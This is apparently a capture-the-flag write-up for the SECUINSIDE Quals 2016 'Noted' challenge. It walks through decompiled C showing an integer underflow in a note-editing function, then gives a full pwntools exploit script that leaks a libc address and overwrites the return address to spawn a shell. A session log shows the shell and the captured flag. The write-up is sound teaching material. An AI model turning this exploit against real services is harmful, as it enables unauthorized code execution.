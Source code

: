 ```yaml
---
layout: post
title: SECUINSIDE Quals 2016 - Noted
category: [Exploitation]
tags: [Exploitation, SECUINSIDE]
comments: true
---
```


**Points:** 180
**Solves:** 19
**Category:** Exploitation
**Description:** get shell and execute /flag_x

> [noted]({{site.url}}/assets/secu-noted)
> [libc]({{site.url}}/assets/secu-libc)

{% highlight text %} 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
{% endhighlight %}

This challenge is a binary in a form of note keeping application. On start it changes directory to `/home/noted` and presents the user with a menu.
{% highlight text %}
[Simple NOTED]
Menu
1) Login
2) Register
3) Exit

{% endhighlight %}

Before login, we need to register an account. On registration the application creates a folder with the provided user id. For the password it creates a file in the new directory, password.txt that only contains plaintext ASCII password for this user.

Once we login a different menu is presented.

{% highlight text %}
Menu
1) List note
2) Write note
3) Read note
4) Edit note
5) Delete note
6) Recover note
7) Empty recyclecan
8) Logout

{% endhighlight %}

## Main menu

A short description of all the functions in the application.

1. `List note` displays the notes the user has created
2. `Write note` is how a user creates a note. Each note creates a file in the user's designated directory, each file/note starts with 16 bytes serving as a password for that note followed by a maximum of 1024 bytes of note's content.
3. `Read note` reads a note
4. `Edit note` edits a note
5. `Delete note` deletes a note by moving the note/file in a subdirectory named `recyclecan`
6. `Recover note` moves a deleted note from the recyclecan directory back to the user's main folder
7. `Empty recyclecan` deletes all files/notes in the recyclecan folder
8. `Logout` logs out by setting a local variable in main and presents the login menu

To exploit the application we only need to know the `Write note` and `Edit note` functions.

## Write note

It's going to be easier if I just show the decompiled psudo-code.
What we need to do here is, create a note with arbitrary name and password and a negative content length. The goal is to create a note with it's content only it's password.

{% highlight C %}
int write_note()
{
  int result;
  int v1;
  int n;
  int fd;
  int fda;
  int length;
  char temp_buf[16];
  char content[1024];
  char title[136];  // note name / file name

  memset(title, 0, 0x80);
  memset(content, 0, 0x400);
  memset(temp_buf, 0, 0x10);
  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;  // null terminates our input
  if ( check_alphanum(title) )
  {
    fd = open(title, 0);
    printf("filedata length : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    length = atoi(temp_buf);  // Here we need to supply negative number
    if ( length > 1023 )      // length is signed        
      length = 0;
    memset(temp_buf, 0, 0x10);
    printf("password : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    if ( length > 0 )       // negative length prevents us from
    {                       // writing to the content buffer :(
      printf("filedata : ");
      v1 = read(0, content, length + 1);
      n = v1 - 1;
      content[v1] = 0;
    }
    if ( fd == -1 )
    {
      fda = open(title, 65, 438); // creates note
      write(fda, temp_buf, 0x10); // writes note's password to the note
      if ( length <= 0 )          // we need negative length here
      {                         
        if ( !length )            // negative length prevents "(EMPTY)"
          write(fda, "(EMPTY)", 7); // to be written to the note
      }
      else
      {
        write(fda, content, n);
      }
      close(fda);      // our note's content is only it's 16 byte password ! 
    }
    else
    {
      puts("error : filename duplicate!\n");
      close(fd);
    }
    result = write(1, "\n", 1);
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

The check if length is negative before writing to the note is preventing us from supplying data to the note, however by creating a note with it's content only it's password we can trigger an integer underflow in `Edit note`.

## Edit note

{% highlight C %}
int edit_note()
{
  int result;
  int v1;
  int file_length;
  int note_fd;
  int n;
  char temp_buf[16];
  char password[16];
  char note_content[1024];
  char title[136];

  memset(title, 0, 0x80);
  memset(note_content, 0, 0x400);
  memset(password, 0, 0x10);
  memset(temp_buf, 0, 0x10);

  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;

  if ( check_alphanum(title) )
  {
    if ( check_file_stats(title, &v1) == -1 )
    {
      result = puts("error : invalid note\n");
    }
    else
    {
      // asks user for password
      memset(temp_buf, 0, 0x10);
      printf("password : ");
      temp_buf[read(0, temp_buf, 0x10) - 1)] = 0;
      password = temp_buf;
      note_fd = open(title, 0);
      if ( note_fd == -1 )
      {
        result = puts("error : cannot open note\n");
      }
      else
      {
        // read the passwd from the note
        read(note_fd, temp_buf, 0x10);
        // compare the two passwords
        if ( !memcmp(password, local_buf, 0x10) ) // 
        {
          if ( file_length - 16 <= 1024 )
          {
            // since the note's content is only it's password
            // the length of the note will be 16
            // calculating 16 - 16 - 1 will result it n being -1 via int underflow vuln
            n = read(note_fd, note_content, file_length - 16) - 1; // integer underflow here
            note_content[n] = 0;
            close(note_fd);

            // Here write will leak the whole content of the stack !
            printf("original data : ");
            write(1, note_content, n);
            note_fd = open(title, 1);

            // and here we have buffer overflow of the note_content local buffer
            printf("new file data (new file can't exceed original size) : ");
            n = read(0, note_content, n) - 1;
            note_content[n] = 0;
            write(note_fd, &local_buf, 0x10);
            write(note_fd, note_content, n);
            close(note_fd);
          }
          else
          {
            puts("error : note is too big\n");
          }
        }
        else
        {
          puts("error : incorrect password\n");
        }
        result = close(note_fd);
      }
    }
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

If you read the comments, you pretty much know what needs to be done in order to exploit this function.
So let's create a username, login and create a note with length -1. Then go into `Edit note` and edit our note. This will cause the leak of the whole stack, that's where we are going to grab an address within libc calculate the offset to `system()` and `/bin/sh` string and classically overwrite the return address of the `Edit note`. 

## Exploit

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(user, pwd):
  r.sendline('2')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('3) Exit\n')

def login(user, pwd):
  r.sendline('1')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('Menu\n')

def create_note(title):
  r.sendline('2')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('filedata length : ')
  r.sendline('-1')
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('8) Logout')

def edit_note(title):
  r.sendline('4')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('original data : ')
  leak = r.recv(0x4cc)
  libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
  leak = r.recv()
  log.info("libc addr" + hex(libc_addr))
  bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
  system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
  log.info("/bin/sh at: " + hex(bin_sh))
  log.info("system at: " + hex(system_addr))

  payload = "A" * 0x48c
  payload += p32(system_addr)
  payload += p32(bin_sh) * 2
  r.sendline(payload)

def exploit(r):
  r.recvuntil('3) Exit\n')

  user = 'uafioas'
  pswd = 'uafioas'

  register(user, pswd)
  login(user, pswd)
  create_note('ab')
  edit_note('ab')

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/secuinside/noted/noted'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  noted python ./noted.py chal.cykor.kr 20003
[*] For remote: ./noted.py HOST PORT
[+] Opening connection to chal.cykor.kr on port 20003: Done
[*] libc addr0xf75c4000
[*] /bin/sh at: 0xf771d09f
[*] system at: 0xf75fe920
[*] Switching to interactive mode
new file data (new file can't exceed original size) : $
$ ls /
bin
boot
core
dev
etc
flag_x
home
lib
lib32
lib64
media
mnt
noted
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ /flag_x
df72b22170fed79911e4a69c68a1b9a0
$ id
uid=1000(noted) gid=1000(noted) groups=1000(noted)
$ whoami
noted
$
{% endhighlight %}
